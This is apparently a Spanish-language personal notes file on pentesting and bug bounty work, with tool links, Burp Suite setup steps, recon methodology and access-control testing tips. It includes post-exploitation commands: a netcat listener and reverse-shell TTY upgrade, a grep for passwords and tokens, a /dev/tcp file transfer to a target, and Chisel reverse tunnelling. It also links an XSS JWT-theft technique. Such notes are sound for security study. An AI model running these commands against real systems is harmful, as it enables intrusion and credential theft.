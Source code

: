 # Varias cositas  

## Comandos y funciones Bash utiles  

extractPorts  
https://gist.github.com/anibalardid/5e05b6472feb3d31116729dc24e6d3e2  

rmk  
https://gist.github.com/anibalardid/b2d4025152d913e398fcef6830d89cad  

mkt  
https://gist.github.com/anibalardid/6bbd0a8fefb507b88bc511d41ecd91ba  


## Diccionarios  

https://github.com/NullWin/DiccionarioArgentino  


## Tips  

### Comandos al ingresar por shell (reverse shell)  

whoami  
ifconfig o ip a  
  
script /dev/null -c bash  
^Z  
stty raw echo -echo; fg  
nc -nlvp 443  
reset  

terminal ? xterm  
export TERM=xterm  
export SHELL=bash  

en una ventana mia ejecutar: stty -a   
Y ver la cantidad de filas y columnas, para configurar lo mismo en la maquina remota  
stty rows 53 columns 206  

Buscamos credenciales  
grep -r -i -E "user|pass|key|token"  

Buscamos archivos   
find \-type f 2>/dev/null  

Script en python:  
https://pastebin.com/5GqY54FG  

### Chisel  
https://github.com/jpillora/chisel  

truco para compilar a bajo peso:  
go build -ldflags "-s -w"  
du -hc chisel  
upx brute chisel  
du -hc chisel  

> upx comprime binarios

desde maquina local hacer:  
nc -lnvp 443 < chisel  
y en maquina virtual:  
cat > chisel < /dev/tcp/ipxxx/443

maquina local:  
./chisel server --reverse -p puerto    

maquina ataque:  
./chisel client ip:puerto  

### Borrado seguro de archivos  
scrub y shred  

### TMUX  
Oh My TMUX  
https://github.com/gpakosz/.tmux  

Cheat Sheet  
https://gist.github.com/anibalardid/d5db8be18cabafe9fc8eea28c3fae2f7  


### Steghide - Esteganografía  
Buscar contenido en las imágenes  

http://steghide.sourceforge.net/  
https://fwhibbit.es/steghide-brute-force-tool  
https://github.com/Va5c0/Steghide-Brute-Force-Tool  
https://github.com/Paradoxis/StegCracker  


### Encodear (encoding) de payloads para pruebas  
CyberChef  
https://gchq.github.io/CyberChef/  

### Buscar directorios y subdominios con Burp Suite Pro
Extensiones interesantes a instalar en Burp Suite:  
```
XSS Validator
Software Vulnerability Scanner
Replicator
NoSQLi Scanner
JavaScript Security
Flow
Error Message Checks
CSRF Scanner
CMS Scanner
Burp Bounty
Autowasp
```

1- Abrir proxy y cargar sitio  
2- Ir a Target - Scope -> cambiar a modo avanzado y escribir solo una parte de la url, por ejemplo "hilton" , y luego poner NO  
3- Ir a Sitemap, tocar en la barra de Filter, y tildar "show only in scope items"  
4- Señalar todos los dominios, boton derecho, Scan  
5- Elegir opcion "Crawl", luego en SCAN CONFIGURATION -> select from library , agregar "crawl strategy faster" y "never stop..."  
6- En Resource pool, poner un maximo de request , por ej 50, que grabe , y darle a OK   
7- En Dashboard se puede ver el progreso de escaneo.  
8- En la solapa Flow tambien se puede ver el progreso, si no se tiene se instala de Extended -> BApp Store  


### Pasos The Bug Hunter's Methodology Full 2-hour Training by Jason Haddix  

- Búsqueda subdominios
amass, subfinder  

- Github Dorks
GitDorker: 
https://obheda12.medium.com/gitdorker-a-new-tool-for-manual-github-dorking-and-easy-bug-bounty-wins-92a0a0a6b8d5  
https://github.com/obheda12/GitDorker  
Hunter.sh:  
https://gist.github.com/anibalardid/9787094b9c642eadd217c7b6dd6dbfac  
  
Github Search :  
https://github.com/gwen001/github-search  

- Verificar subdominios  y dominios activos
httprobe:  
https://github.com/tomnomnom/httprobe  




#### Checklist Methodology
https://gist.github.com/jhaddix/6b777fb004768b388fefadf9175982ab#file-wahh_task_checklist-md  


--- 

### Broken Access Control
Tips de El Mago

ejemplo de writeup    
https://galnagli.com/Samsung_Exposure/  
https://notifybugme.medium.com/unauthorized-access-to-admin-setpassword-page-by-bypass-403-forbidden-f10bbb92ab35  

### Tips  
crear 2 cuentas , comun y otra para admin (usando + o . , o mails temporales)  
usar match and replace de burp suite  
reemplazar false x true y true x false  (proxy, options, match and replace, como response body)  
leer los archivos js  
probar cambiar verbo/metodos  

Extension multi account container  

se le puede dar acceso a la cuenta desde un usuario a otro  
y vemos q hay opciones q no se ven  
en el burp, en proxy history, boton derecho - repeater  
hacemos lo mismo con un request del otro usuario   
probamos cambiar los authorization headers entre los requests  
e ir probando 1 x 1 varios endpoints  

Se puede automatizar, instalando desde BApp Store  : Authorize   

robar x xss sesion de jwt de localstorage   
https://medium.com/redteam/stealing-jwts-in-localstorage-via-xss-6048d91378a0   


### Encode 
Para usar xss, se puede encodear el código como unicode. 


## Como usar Burp Suite

### Configuración inicial
1) Instalar en el browser Foxy Proxy (o configurar a mano el proxy)
2) La config del proxy se encuentra en Proxy - Options 
3) Exportar el archivo del certificado .der
4) Importar certificado en el browser, en la sección de entidades , debe preguntar opciones al importar
5) Probar encender el proxy y cargar una web https para probar q funcione el certificado
6) En Burp en Proxy - Intercept , si esta en ON, podremos ir viendo los requests y responses, avanzando con el boton de Forward

### Uso Básico
1) Encender proxy
2) Poner Intercept en Off , hasta que querramos empezar a interceptar
3) Ir a la solapa TARGET y en Scope especificar la url, o con la opcion Avanzada elegir un regex
4) Luego en Proxy, ir a Opciones, y ahi poner AND en las opciones de Intercept Client Request
5) 



